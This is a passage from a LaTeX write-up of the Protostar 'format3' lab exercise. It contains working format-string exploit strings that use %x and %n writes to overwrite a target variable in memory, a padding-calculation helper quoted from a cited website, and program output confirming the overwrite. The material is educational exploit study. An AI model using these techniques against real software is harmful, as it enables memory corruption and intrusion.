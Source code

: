 Searching online, we can see that it is possible to modify the values of multiple
memory location using the following line of code.

\begin{lstlisting}[language=bash]
python -c "print '\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08' + '%x.'*11 + '%n%n%n%n'" | ./format3
>>>target is 58585858 :(
\end{lstlisting}

Now that we are able to confirm that we can modify the target variable, we will
try to inject the values that we want to write to these memory location. We
structure the attack such that it is based on groups of [Value, Address]. We
repeat this structure for the 4 bytes that we want to write, to inject the value
we use \lstinline|%u| as a mechanism to obtain the needed value and \lstinline|%n| to inject the value
into the memory location. We refer to the short python calculate in this website,
url: \url{https://xavibel.com/2020/11/22/protostar-format-strings-level-3/} to obtain the
offset needed. The following python code is as taken from the website.

\begin{lstlisting}[language=python]
def calculate(to_write, written):
  to_write += 0x100
  written %= 0x100
  padding = (to_write - written) % 0x100
  if padding < 10:
      padding += 0x100
  return padding
\end{lstlisting}

Computing the values, we are able to create our format attack string.

\begin{lstlisting}[language=bash]
python -c "print '\x01\x01\x01\x01\xf4\x96\x04\x08\x01\x01\x01\x01\xf5\x96\x04\x08\x01\x01\x01\x01\xf6\x96\x04\x08\x01\x01\x01\x01\xf7\x96\x04\x08' + '%x.'*11 + '%220u%n%17u%n%173u%n%255u%n'" | ./format3
>>>0.bffffad0.b7fd7ff4.0.0.bffffcd8.804849d.bffffad0.200.b7fd8420.bffffb14...
>>>you have modified the target :)
\end{lstlisting}

Having a successful exploit, we want to find out if it is possible to work through
another way. We take a look at this format of a string specification first.
\lstinline|%60u%4\$08n|. Let us break down the meaning of this format.
The first \lstinline|%60u| specifies 60 characters. The \lstinline|4\$| specifies
the 4th position of the \lstinline|%x| that we have been manipulating. This time
however, we use \lstinline|08n| to specify the 8 hexa value that we are modifying.
Following that logic, we will create our attack string such that we do not use an
external script. We line the attack string with the addresses we want to modify first,
this will form a total of 16 bytes. We compute the remainder of offset that we
need to amend in the \lstinline|%u%n| combination.

